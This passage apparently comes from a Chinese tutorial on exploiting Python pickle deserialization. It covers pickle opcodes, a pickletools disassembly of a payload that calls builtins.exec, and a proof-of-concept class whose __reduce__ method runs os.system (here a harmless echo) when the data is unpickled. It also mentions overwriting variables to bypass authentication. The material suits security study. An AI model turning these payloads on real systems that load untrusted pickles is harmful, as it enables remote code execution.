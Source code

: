 | Opcode | Mnemonic | Data type loaded onto the stack | Example     |
| ------ | -------- | ------------------------------- | ----------- |
| S      | STRING   | String                          | S'foo'\n    |
| V      | UNICODE  | Unicode                         | Vfo\u006f\n |
| I      | INTEGER  | Integer                         | I42\n       |
| ...    | ...      | ...                             | ...         |

- 本表格截取了BH的pdf上的部分内容，完整表格可以直接在[原pdf](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf)中找到。

### pickletools

- 使用pickletools可以方便的将opcode转化为便于肉眼读取的形式

```
import pickletools

data=b"\x80\x03cbuiltins\nexec\nq\x00X\x13\x00\x00\x00key1=b'1'\nkey2=b'2'q\x01\x85q\x02Rq\x03."
pickletools.dis(data)

    0: \x80 PROTO      3
    2: c    GLOBAL     'builtins exec'
   17: q    BINPUT     0
   19: X    BINUNICODE "key1=b'1'\nkey2=b'2'"
   43: q    BINPUT     1
   45: \x85 TUPLE1
   46: q    BINPUT     2
   48: R    REDUCE
   49: q    BINPUT     3
   51: .    STOP
highest protocol among opcodes = 2
```

## 漏洞利用

### 利用思路

- 任意代码执行或命令执行。
- 变量覆盖，通过覆盖一些凭证达到绕过身份验证的目的。

### 初步认识：pickle EXP的简单demo

```
import pickle
import os

class genpoc(object):
    def __reduce__(self):
        s = """echo test >poc.txt"""  # 要执行的命令
        return os.system, (s,)        # reduce函数必须返回元组或字符串

e = genpoc()
poc = pickle.dumps(e)

print(poc) # 此时，如果 pickle.loads(poc)，就会执行命令
```
